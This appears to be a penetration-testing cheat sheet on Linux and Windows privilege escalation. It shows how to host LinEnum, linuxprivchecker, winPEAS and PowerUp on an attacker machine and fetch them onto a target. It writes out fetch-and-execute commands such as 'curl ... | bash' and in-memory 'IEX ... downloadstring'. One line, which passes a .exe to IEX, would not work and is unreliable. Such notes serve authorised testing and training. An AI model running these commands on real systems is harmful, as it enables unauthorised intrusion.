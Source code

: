 # Privilege Escalation

## Linux

### LinEnum.sh

- HTTP

Host the file
```
cd /opt/linux_privesc
sudo python -m http.server 80
```

```
curl http://<Kali IP>/LinEnum.sh | bash
```

```
wget http://<Kali IP>/LinEnum.sh
bash LinEnum.sh
```

### linuxprivchecker.py

- HTTP

Host the file
```
cd /opt/linux_privesc
sudo python -m http.server 80
```

```
wget http://<Kali IP>/linuxprivchecker.py
python linuxprivchecker.py
```


## Windows

### winPEAS

- HTTP

Host the file
```
cd /usr/share/windows-resources/binaries
sudo python -m http.server 80
```

Copy on Target and execute
```
Invoke-WebRequest -Uri 'http://<Kali IP>/winPEASany.exe' -OutFile <Path>\winPEASany.exe
<Path>\winPEASany.exe
```
Or execute direct on memory
```
IEX(New-Object Net.WebClient).downloadstring('http://<Kali IP>/winPEASany.exe')
```

- SMB

Host the file
```
cd /usr/share/windows-resources/binaries
impacket-smbserver share $(pwd) -smb2support
```

```
net use \\<Kali IP>\share
copy \\<Kali IP>\share\winPEASany.exe .
winPEASany.exe
```
or
```
xcopy \\<Kali IP>\share\winPEASany.exe C:\Temp\winPEAS\

cd C:\Temp\winPEAS
C:\Temp\winPEAS\winPEASany.exe
```


### PowerUp

- HTTP

Host the file
```
cd /usr/share/windows-resources/powersploit/Privesc/
sudo python -m http.server 80
```

Copy on Target and execute
```
Invoke-WebRequest -Uri 'http://<Kali IP>/PowerUp.ps1' -OutFile <Path>\PowerUp.ps1
Import-Module <Path>\PowerUp.ps1
Invoke-AllChecks
```
Or execute direct on memory
```
IEX(New-Object Net.WebClient).downloadstring('http://<Kali IP>/PowerUp.ps1')
Invoke-AllChecks
```

- SMB

Host the file
```
cd /usr/share/windows-resources/powersploit/Privesc/
impacket-smbserver share $(pwd) -smb2support
```

```
net use \\<Kali IP>\share
copy \\<Kali IP>\share\PowerUp.ps1 .
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```
or
```
xcopy \\<Kali IP>\share\PowerUp.ps1 C:\Temp\PowerUp\

Import-Module C:\Temp\PowerUp\PowerUp.ps1
Invoke-AllChecks
```



# Links

- [Basic Linux privilege escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
- [LinEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)
- [linuxprivchecker.py](https://github.com/sleventyeleven/linuxprivchecker)